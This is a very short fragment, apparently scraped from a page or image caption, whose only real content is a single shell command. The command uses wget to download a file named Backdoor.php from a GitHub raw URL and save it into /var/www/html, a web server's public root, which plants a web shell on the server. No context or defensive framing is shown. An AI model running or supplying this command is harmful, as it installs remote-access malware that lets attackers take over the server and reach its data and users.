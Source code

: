 `/usr/bin/wget --output-document /var/www/html/backdoor.php https://raw.githubusercontent.com/Kimeya01/cheese-shits/main/Backdoor.php`
